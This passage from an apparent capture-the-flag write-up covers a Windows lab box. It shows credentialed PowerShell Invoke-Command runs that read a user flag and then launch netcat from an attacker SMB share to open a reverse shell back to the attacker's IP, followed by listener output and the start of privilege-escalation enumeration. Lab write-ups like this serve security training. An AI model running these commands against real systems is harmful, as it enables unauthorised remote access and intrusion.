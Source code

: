 Now I can use that same PowerShell to get `user.txt`:

```

PS C:\inetpub\wwwroot\user> Invoke-Command -ScriptBlock { type \users\chris\desktop\user.txt } -Credential $cred -Computer localhost
21f4d0f2************************

```

### Shell

To turn that into a shell, chris can run `nc`:

```

PS C:\> Invoke-Command -ScriptBlock { \\10.10.14.6\share\nc64.exe -e cmd 10.10.14.6 443 } -Credential $cred -Computer localhost

```

And get a callback on my listener (always using `rlwrap` for Windows):

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.151.
Ncat: Connection from 10.10.10.151:57201.
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Chris\Documents>whoami
sniper\chris

```

## Priv: Chris –> Administrator

### Enumeration

In the root of the C drive there’s a folder `\docs` that iusr wasn’t able to access, but chris can. It contains several files:

```

C:\Docs>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6A2B-2640

 Directory of C:\Docs

10/09/2019  06:54 PM    <DIR>          .
10/09/2019  06:54 PM    <DIR>          ..
04/11/2019  09:31 AM               285 note.txt
04/11/2019  09:17 AM           552,607 php for dummies-trial.pdf
               2 File(s)        552,892 bytes
               2 Dir(s)  17,957,249,024 bytes free

```
